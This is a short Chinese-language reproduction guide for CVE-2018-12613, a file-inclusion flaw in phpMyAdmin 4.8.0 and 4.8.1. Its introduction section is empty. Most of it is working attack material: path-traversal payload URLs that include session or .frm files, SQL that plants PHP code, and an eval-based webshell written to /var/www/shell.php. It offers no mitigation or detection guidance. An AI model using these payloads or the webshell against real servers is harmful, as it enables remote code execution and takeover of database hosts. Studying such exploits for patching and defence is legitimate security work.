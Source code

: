 ```yaml
---
title: "（CVE-2018-12613）Phpmyadmin 远程文件包含漏洞"
id: zhfly3082
---
```


# （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

phpMyAdmin 4.8.0和4.8.1受到影响。

## 三、复现过程

首先需要登录phpmyadmin

### payload

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt 
```

![image](../img/925e9ac79c25fd3034b7b241f4a5bb60.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

```
SELECT '<?php phpinfo()?>' 
```

![image](../img/44a3dfdd24f48369be759fa7b754517c.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![image](../img/73f70f8f92ba0da3dd3e1d5d48b34493.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

```
select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php' 
```

##### 3、访问：

```
http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3 
```

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![image](../img/e38916db56e43583dd4e92792415b40b.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![image](../img/c7aa1d41ce09e49d792bd64d90118e6d.png)

##### 3、访问

```
http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm 
```

![image](../img/eb9281e87824fb9d8b4d92363b2b4ece.png)